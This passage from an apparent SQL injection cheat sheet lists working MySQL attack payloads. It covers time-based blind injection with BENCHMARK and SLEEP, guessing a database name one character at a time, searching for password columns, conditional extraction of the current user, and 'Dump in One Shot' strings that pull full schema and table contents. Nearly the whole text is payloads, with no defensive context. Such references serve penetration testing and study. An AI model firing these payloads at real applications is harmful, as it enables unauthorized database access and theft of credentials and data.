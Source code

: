* MySQL 4/5 : `BENCHMARK()`
    ```sql
    +BENCHMARK(40000000,SHA1(1337))+
    '%2Bbenchmark(3200,SHA1(1))%2B'
    AND [RANDNUM]=BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))  //SHA1
    ```
* MySQL 5: `SLEEP()`
    ```sql
    RLIKE SLEEP([SLEEPTIME])
    OR ELT([RANDNUM]=[RANDNUM],SLEEP([SLEEPTIME]))
    ```

### Using SLEEP in a subselect

```powershell
1 and (select sleep(10) from dual where database() like '%')#
1 and (select sleep(10) from dual where database() like '___')# 
1 and (select sleep(10) from dual where database() like '____')#
1 and (select sleep(10) from dual where database() like '_____')#
1 and (select sleep(10) from dual where database() like 'a____')#
...
1 and (select sleep(10) from dual where database() like 's____')#
1 and (select sleep(10) from dual where database() like 'sa___')#
...
1 and (select sleep(10) from dual where database() like 'sw___')#
1 and (select sleep(10) from dual where database() like 'swa__')#
1 and (select sleep(10) from dual where database() like 'swb__')#
1 and (select sleep(10) from dual where database() like 'swi__')#
...
1 and (select sleep(10) from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '%')#
```

### Using conditional statements

```sql
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()),1,1)))>=100,1, BENCHMARK(2000000,MD5(NOW()))) --
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()), 1, 1)))>=100, 1, SLEEP(3)) --
?id=1 OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
```


## MYSQL DIOS - Dump in One Shot

```sql
(select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a)#

(select (@) from (select(@:=0x00),(select (@) from (db_data.table_data) where (@)in (@:=concat(@,0x0D,0x0A,0x7C,' [ ',column_data1,' ] > ',column_data2,' > ',0x7C))))a)#

-- SecurityIdiots
make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)

-- Profexer
(select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a)

-- Dr.Z3r0
(select(select concat(@:=0xa7,(select count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@))

-- M@dBl00d
```